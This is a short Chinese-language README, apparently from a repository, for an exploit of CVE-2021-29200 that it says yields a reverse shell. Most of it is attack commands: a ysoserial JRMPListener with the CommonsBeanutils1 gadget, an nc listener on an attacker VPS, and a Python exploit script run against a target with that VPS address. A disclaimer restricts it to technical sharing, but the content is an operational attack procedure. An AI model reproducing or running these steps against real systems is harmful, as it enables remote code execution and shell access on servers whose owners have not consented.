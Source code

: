 # CVE-2021-29200

**CVE-2021-29200 EXP 可成功反弹Shell**

> **本文以及工具仅限技术分享，严禁用于非法用途，否则产生的一切后果自行承担。**

### 触发命令执行EXP



#### 1. VPS启动`RMI`监听 `9999` 端口

```shell
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsBeanutils1 '[要执行的命令]'
```

#### 2. VPS启动`nc`监听 `8443` 端口

```shell
nc -lvp 8443
```

#### 3. 执行python脚本

```shell
python3 cve-2021-29200_exp.py <target> <vps_ip> <vps_port>
```



#### 示例

![1620729375025](img/1620729375025.png)
